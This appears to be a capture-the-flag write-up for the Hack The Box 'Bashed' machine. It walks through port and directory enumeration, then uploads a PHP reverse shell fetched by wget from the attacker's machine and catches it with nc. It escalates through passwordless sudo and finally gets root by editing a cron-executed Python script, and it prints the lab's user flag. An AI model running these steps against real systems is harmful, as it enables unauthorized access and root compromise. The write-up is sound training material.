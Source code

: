 # BASHED

## ENUMERATION

Running the nmap scan we find only one port open

```
nmap 10.10.10.68 -p 80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 04:59 EDT
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Finding the http port open I ran gobuster to find directories 

```
===============================================================
2021/08/03 05:04:51 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]                                
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/server-status        (Status: 403) [Size: 299]                                 
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
```

Opening the /dev directory that we found through gobuster we find a interactive web shell 

## SHELL

Running the ```ls -la``` command in the ```/var/www/html``` directory we find that the ```uploads``` directory is the only one in which our user i.e. ```www-data``` has write permission. So that's where we can upload php reverse shell.

Downloading php reverse shell from <http://pentestmonkey.net/tools/web-shells/php-reverse-shell> on my machine and changing the ip to our system tunnel ip and the port to 4444

Running the command ```python -m SimpleHTTPServer``` to start a http server on our machine in the same directory as the php reverse shell we need to upload

![](/images/hackthebox/bashed2.png)

Now we run the command ```wget http://10.10.14.36:8000/php-reverse-shell.php``` to download the reverse shell on the machine

![](/images/hackthebox/bashed1.png)

Starting nc listerner ```nv -lvnp 4444``` on our system and then opening the url <http.//10.10.10.68/uploads/php-reverse-shell.php>

![](/images/hackthebox/bashed3.png)	

We get a shell which we stabilize with the command ```python -c 'import pty; pty.spawn("/bin/bash")'```

## WWW-DATA --> USER

Using the command ```sudo -l``` 

This means that we have permissions to become user scriptmanager without password

```
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$ whoami
whoami
scriptmanager
scriptmanager@bashed:/$ cd /home
cd /home
scriptmanager@bashed:/home$ ls 
ls 
arrexel  scriptmanager
scriptmanager@bashed:/home$ cd arrexel
cd arrexel
scriptmanager@bashed:/home/arrexel$ ls
ls
user.txt
scriptmanager@bashed:/home/arrexel$ cat user.txt
cat user.txt
2c281f318555dbc1b856957c7147bfc1
```
And we have our user flag

## USER --> ROOT

Using command ```ls -la``` in the / diectory we find only one directory writabble to out user ```scripts```
```
scriptmanager@bashed:/$ ls -la
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Aug  3 01:57 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 115 root          root              0 Aug  3 01:57 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Aug  3 01:58 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Aug  3 02:57 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Aug  3 02:16 sys
drwxrwxrwt  10 root          root           4096 Aug  3 03:03 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```
In the scripts directory we find two files 
```
scriptmanager@bashed:/$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

using ```ls -la ``` command we see that the time of last execution of test.py is the current time which lead me to try it again after a few minutes and the time was again same as the current time 
This means that the script is being executed by crontab running in the background 

We use this to read root.txt
```
scriptmanager@bashed:/scripts$ echo 'import os' > test.py
echo 'import os' > test.py
scriptmanager@bashed:/scripts$ echo 'os.system("cat /root/root.txt > /tmp/readme.txt")' >> test.py
<ts$ echo 'os.system("cat /root/root.txt > /tmp/readme.txt")' >> test.py     
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
import os
os.system("cat /root/root.txt > /tmp/readme.txt")
scriptmanager@bashed:/scripts$ cd /tmp
cd /tmp
scriptmanager@bashed:/tmp$ ls
ls
VMwareDnD
readme.txt
systemd-private-fb9d9649303741a0b3e5ee96e5c01d4d-systemd-timesyncd.service-8VKUb9
vmware-root
scriptmanager@bashed:/tmp$ cat readme.txt
```
And we have out root flag